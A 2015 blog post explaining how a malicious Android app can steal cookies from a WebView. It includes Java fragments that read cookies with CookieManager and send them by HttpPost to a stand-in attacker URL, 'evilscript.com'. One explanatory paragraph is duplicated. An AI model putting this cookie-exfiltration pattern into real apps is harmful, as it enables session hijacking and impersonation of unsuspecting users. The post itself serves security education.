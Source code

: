 +++
author = "Bhavani Anantapur Bache"
title = "Is your data in Android device safe??? – Cross Site Scripting attacks on Android WebView"
date = "2015-07-07"
description = "Is your data in Android device safe??? – Cross Site Scripting attacks on Android WebView"
featured = true
tags = [
    "Programming",
    "Android",
    "Embedded Systems",
]
categories = [
    "Programming",
    "Android",
    "Embedded Systems"
]
series = ["Embedded Systems"]
aliases = ["migrate-from-jekyl"]
thumbnail = "images/malicious-android.jpg"
+++
Many of the Android applications display web content and also interact with it. This is possible by exposing a web browser as a standalone component and embedding it in the application. Such a component is called as WebView. WebView uses a number of APIs which can interact with the web contents inside WebView. In the current blog-post, Cross-site scripting attacks or XSS attacks specific to Android WebView are discussed.
<h3>What is Cross-site Scripting?(XSS)</h3>
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in Web Applications. To protect the user’s environment from malicious code, browsers use a sand-boxing mechanism that limits a script to access only resources associated with its origin site. Unfortunately, these security mechanisms fail if a user unknowingly executes a malicious script from an intermediate, trusted site. In this case, the malicious script is granted full access to all resources (e.g. Authentication tokens and cookies) that belong to the trusted site. Such attacks are called cross-site scripting (XSS) attacks.

<h3>How are Cross-site scripting attacks possible in Android?</h3>
By finding ways of executing malicious scripts through the third party malicious app on phone, an attacker can gain elevated access-privileges to sensitive page content, session cookies, and a variety of other information in the phone such as contacts.

<h3>Cross site Scripting by stealing cookies from user’s device</h3>
The most common behavior of XSS attacks is to gather cookies. Cookies are small text files that reside on a user’s computer and store name-value pairs along with some metadata. Cookies are commonly used to store information intended to be persistent during a browser session or from session to session, such as session IDs, user preferences, or login information.

![alt text](images/rgbcolorspace1.png "Logo Title Text 1")

When the user runs the application through the WebView, Android applications can monitor the events occurred within WebView. Cookies can be gathered at every page navigation of the user using the method getCookie() from CookieManager class as shown in the code fragment below.
````java
CookieManager cookieManager = CookieManager.getInstance();
final string cookie = cookieManager.getCookie(url);
````

Through HttpPost, malicious script can be run on the user’s Android device, cookies and URL can be sent to any third party (i.e., the attacker’s server), thus avoiding the same-origin policy or cookie protection mechanism.

````java
HttpClient httpClient = new DefaultHttpClient();
HttpPost httpPost = new HttpPost(“http://evilscript.com/androidCookie.php”);
````
The attacker is now able get all the cookies and will be able to launch several attacks such a Session Hijacking and impersonating user using stolen cookies. The attacks described above are quite dangerous as the user sees only the trusted content and is not aware that his cookies are being stolen. The attack is shown in the figure.

The attacker is now able get all the cookies and will be able to launch several attacks such a Session Hijacking and impersonating user using stolen cookies. The attacks described above are quite dangerous as the user sees only the trusted content and is not aware that his cookies are being stolen.

NOTE: Please see the [research publication]("http://ijcsn.org/IJCSN-2013/2-2/IJCSN-2013-2-2-03.pdf") for details.
